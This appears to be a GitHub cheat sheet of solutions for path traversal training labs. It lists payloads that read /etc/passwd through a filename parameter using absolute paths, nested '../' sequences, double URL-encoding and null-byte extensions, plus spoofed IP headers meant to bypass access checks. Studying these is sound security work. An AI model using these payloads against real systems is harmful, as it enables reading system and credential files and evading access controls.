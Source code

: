 ## Use Burp Intruder and its worlist:

![sd](https://github.com/user-attachments/assets/deb9b141-a5d1-45f9-ae02-1a572947ca1b)

## File path traversal, traversal sequences blocked with absolute path bypass

```
/image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively

```
/image?filename=..././..././..././etc/passwd
```

## File path traversal, traversal sequences stripped with superfluous URL-decode

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

## File path traversal, validation of start of path

```
/image?filename=/var/www/images/../../../../etc/passwd
```

## File path traversal, validation of file extension with null byte bypass

```
../../../../../../etc/passwd%00.jpg
```

## Encoded

```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```

## Use my program for path traversal bruteforce

## Path Traversal Bypasses

    Adding Headers in request with value 127.0.0.1 or localhost can also help in bypassing restrictions.

X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: localhost
X-Forward-For: localhost
X-Remote-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost

X-Originating-IP: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
